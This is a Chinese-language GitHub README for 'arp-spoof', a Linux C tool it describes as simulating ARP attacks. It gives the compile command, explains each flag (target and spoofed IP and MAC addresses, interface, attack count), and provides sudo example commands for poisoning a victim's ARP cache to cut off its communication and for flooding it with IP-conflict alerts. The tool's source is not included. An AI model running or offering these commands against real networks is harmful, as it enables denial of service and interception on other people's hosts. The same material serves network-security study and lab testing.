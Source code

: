 # arp-spoof

本程序模拟实现arp攻击. 开发环境下有详述. 本程序依赖 linux 运行环境, 若需在 windows 下编译运行需做稍许修改.

### 开发环境
>操作系统 : ubuntu 14.04 LTS   
>编辑器 : sublime text 2   
>编译器 : gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4   

### 编译
>编译链接 : ~$ gcc ./arpspoof.cpp -o arpspoof

### 运行
>**参数详情** :   
>1. -t,   目标ip, 必须参数 --> 被攻击的主机IP, 需填写正确   
>2. -T,   目标mac, 必须参数 --> 被攻击的主机MAC, 需填写正确  
>3. -s,   源IP或伪装IP, 必须参数 --> 本机IP或伪装的IP  
>4. -S,   源MAC或伪装MAC, 必须参数 --> 本机MAC或伪装的MAC  
>5. -i,   网卡名称, 可选参数, 默认eth0  
>6. -c,   攻击次数, 可选参数, 默认10  
>7. -h,   帮助信息    
>  
>**运行命令** : (*因需要建立raw socket链接, 获取使用超级用户权限运行*)   
>~$ sudo ./arpspoof -s [伪装IP] -S [伪装MAC] -t [被攻击IP] -T [被攻击MAC] -c [攻击次数] -i [网卡名称]   
>样例:   
>~$ sudo ./arpspoof -s 192.168.1.254 -S 64:00:6a:52:12:aa -t 192.168.1.147 -T 08:00:27:ce:c9:34 -c 1000 -i eth0

### 问题解答
####1. 如何获取被攻击方的 MAC
答 : 使用 ~$ arp 查看本机 arp 表, 获取被攻击方的 MAC 地址. 如果 arp 表中不存在被攻击方的条目, 可以先使用 ~$ ping 命令以此更新arp表.

####2. 几种攻击方式   
修改被攻击方的 arp 缓存表, 使其不能正常通信.   
例如 : ~$ sudo ./arpspoof -s 192.168.1.254 -S 64:00:6a:52:12:aa -t 192.168.1.147 -T 08:00:27:ce:c9:34 -c 1000 -i eth0

使被攻击方不断跳出 ip 地址冲突对话框
例如 : ~$ sudo ./arpspoof -s 192.168.1.147 -S 64:00:6a:52:12:aa -t 192.168.1.147 -T 08:00:27:ce:c9:34 -c 1000 -i eth0